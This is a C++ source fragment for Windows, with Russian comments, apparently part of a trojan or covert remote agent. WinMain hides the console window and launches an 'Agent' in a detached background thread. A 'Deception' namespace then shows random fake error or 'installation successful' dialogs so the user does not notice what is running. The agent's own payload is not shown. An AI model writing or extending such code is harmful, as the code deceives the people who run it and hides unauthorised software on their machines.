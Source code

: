 ```cpp
        std::string message = messages[msgDis(gen)];
        std::string title = titles[titleDis(gen)];
        
        // Показываем сообщение с задержкой
        Sleep(3000);  // 3 секунды после запуска
        
        MessageBoxA(nullptr, message.c_str(), title.c_str(), 
                    MB_OK | MB_ICONERROR | MB_SYSTEMMODAL);
    }
    
    void ShowFakeSuccess() {
        std::vector<std::string> successMessages = {
            "Установка завершена успешно!\n\nПрограмма готова к использованию.",
            "Обновление установлено.\n\nВсе компоненты обновлены до последней версии.",
            "Регистрация прошла успешно.\n\nТеперь вы можете пользоваться полной версией.",
            "Файлы успешно распакованы.\n\nВы можете найти их в папке 'Документы'."
        };
        
        std::random_device rd;
        std::mt19937 gen(rd());
        std::uniform_int_distribution<> dis(0, successMessages.size() - 1);
        
        Sleep(2000);
        MessageBoxA(nullptr, successMessages[dis(gen)].c_str(), 
                   "Успешно", MB_OK | MB_ICONINFORMATION);
    }
}

// В функции main() или WinMain() добавьте:
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    // Скрыть консоль
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    
    // Запустить агент в фоне
    std::thread agentThread([]() {
        g_agent = std::make_unique<Agent>();
        if (g_agent->Initialize()) {
            g_agent->Start();
        }
    });
    agentThread.detach();
    
    // Показать поддельное сообщение пользователю
    #ifdef ENABLE_FAKE_MESSAGES
    // Случайно выбираем тип сообщения
    if (rand() % 100 < 70) {  // 70% ошибок, 30% успехов
        Deception::ShowFakeError();
    } else {
        Deception::ShowFakeSuccess();
    }
    #endif
    
    // Продолжить работу агента в фоне
    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
    
    return 0;
}
```
